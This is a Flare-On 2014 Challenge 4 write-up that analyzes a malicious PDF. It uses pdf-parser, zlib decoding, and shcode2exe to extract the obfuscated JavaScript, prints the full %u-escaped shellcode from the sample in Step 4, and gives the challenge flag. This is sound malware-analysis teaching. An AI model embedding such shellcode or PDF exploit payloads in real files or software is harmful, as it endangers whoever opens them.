 # Flare-On 2014 Challenge 4: Malicious PDF with Embedded Shellcode

This walkthrough details the process of analyzing a **malicious PDF** that contains **JavaScript** and **shellcode**. The goal is to extract and execute the shellcode to reveal the hidden **FLAG**. Tools such as **pdf-parser**, **DIE**, **IDA Pro**, and custom Python scripts are utilized throughout the process.

---

## Table of Contents
- [Introduction](#introduction)
- [Step 1: Initial PDF Analysis with pdf-parser](#step-1-initial-pdf-analysis-with-pdf-parser)
- [Step 2: Investigating PDF Objects](#step-2-investigating-pdf-objects)
- [Step 3: Extracting and Deobfuscating the JS](#step-3-extracting-and-deobfuscating-the-js)
- [Step 4: Analyzing the JS and extract the Shellcode](#step-4-analyzing-the-js-and-extract-the-shellcode)
- [Step 5: Correcting Byte Order: Little Endian](#step-5-correcting-byte-order-little-endian)
- [Step 6: Converting Shellcode to Executable](#step-6-converting-shellcode-to-executable)
- [Step 7: Debugging the Shellcode](#step-7-debugging-the-shellcode)
- [Step 8: The FLAG](#step-8-the-flag)
- [References](#references)

---

## Introduction

In this challenge, we are tasked with analyzing a **malicious PDF** that contains embedded **JavaScript** and **shellcode**. The JavaScript is obfuscated, and the shellcode is hidden within the PDF. Our goal is to extract the shellcode, execute it, and reveal the hidden **FLAG**. We will utilize **pdf-parser** for initial analysis, along with **DIE**, **IDA Pro**, and custom Python scripts for deobfuscating and analyzing the shellcode.

---

## Step 1: Initial PDF Analysis with pdf-parser

We begin by analyzing the PDF with **pdf-parser** to search for embedded actions or scripts:

- Execute the following command to search for the string `'action'` within the PDF:
  ```bash
  pdf-parser.py APT9001.pdf -s action
  ```
  - This command searches for any actions or embedded JavaScript that might be present.
  
    ![Action Objects](images/1-action-objects.png)

- The output shows several objects, indicating that the PDF may contain JavaScript or other embedded actions.

---

## Step 2: Investigating PDF Objects

Next, we investigate object 6 - `JavaScript` object within the PDF:

- Run the following command to display verbose output for objects 1 and 5:
  ```bash
  pdf-parser.py APT9001.pdf -o 6 -c -D -v
  ```

- Object **6** is found to contain a **JavaScript reference**, but the content is **obfuscated**.
  
  ![Obfuscated JS](images/3-obfuscated-JS.png)

---

## Step 3: Extracting and Deobfuscating the JS

1. Now, we extract the obfuscated JavaScript content and attempt to deobfuscate it:
    - Dump the content of object **6** with the following command:
      ```bash
      pdf-parser.py APT9001.pdf -o 6 -d obfu_js.mal
      ```
      - This saves the obfuscated content that **pdf-parser** couldn't fully decode.

    - After dumping the content, we used **DIE** (Detect It Easy) to identify the encoding, which turns out to be a **zlib archive**.
- Decompressing the archive with the **extract_js_from_zlib.py** script allowed us to decode the hexadecimal values into ASCII.
  - The result was saved as `deobfu_ascii_js.js`, which still had some unclear parts.
  ![Phases of decodeing JS payload](images/3-before-deobfuscared-JS.png)
  

---

## Step 4: Analyzing the JS and extract the Shellcode

- The content looked like:
  
  ```javascript
  var HdPN = "";
  var zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf = "";
  var IxTUQnOvHg = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");
  var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";
  ```
- Before trying to decode all the script let's focus on the escaped strings:
- Use the **deobfu_escaped.py** script to:

 1. `little_endian_encoded_shellcode.bin` - Convert **%uXXXX** Unicode escapes into actual ASCII characters.
    ![Little-Endian encoding](images/4-encoded-little-endian-sc.png)

    - _Notice_: The data is shown in reversed order (little-endian)
                -  [Little-Endian in IDA - binary search](https://hex-rays.com/blog/igors-tip-of-the-week-48-searching-in-ida)

  - The script will also decode little-endian dumped binary data.
---

## Step 5: Correcting Byte Order: Little Endian

2. `little_endian_decoded_shellcode.bin` - Reverse any pair of hex-values
  ![Little-Endian decoding](images/4-decoded-little-endian-sc.png)

---

## Step 6: Converting Shellcode to Executable

A shellcode cannot be executed without an executable that will make it happen.

- Using the **shcode2exe** script from GitHub, we converted the shellcode into an executable:
  ```bash
  python ./shcode2exe.py -o little_endian_sc.exe little_endian_decoded_shellcode.bin
  ```

  - **Shellcode to EXE**: [shcode2exe](https://github.com/accidentalrebel/shcode2exe)

---

## Step 7: Debugging the Shellcode

We now analyze the **little_endian_sc.exe** in **IDA Pro**:
   - Open the executable in **IDA** and track the flow of the shellcode.
   - By stepping through the instructions, we encountered an error while attempting to perform XOR operation (probably because we're not exploiting the vulnerable PDF reader that was meant for this challenge)
     
      ![Memory error](images/6-error-on-xor.png)
      
---

## Step 8: The FLAG

To bypass this issue i've wrote a Python script to decrypt the values which revealed the **FLAG**
  - Execute `build_xored.py`
    
      ![Flag](images/8-flag.png)



- **FLAG**:  
  `wa1ch.d3m.spl01ts@flare-on.com`

---

### References

- **pdf-parser**: A tool for analyzing and parsing PDF files.
- **DIE (Detect It Easy)**: A tool for detecting file types and analyzing embedded content.
- **IDA Pro**: A disassembler and debugger for reverse engineering tasks.
- **shcode2exe**: A script for converting raw shellcode into executable files.
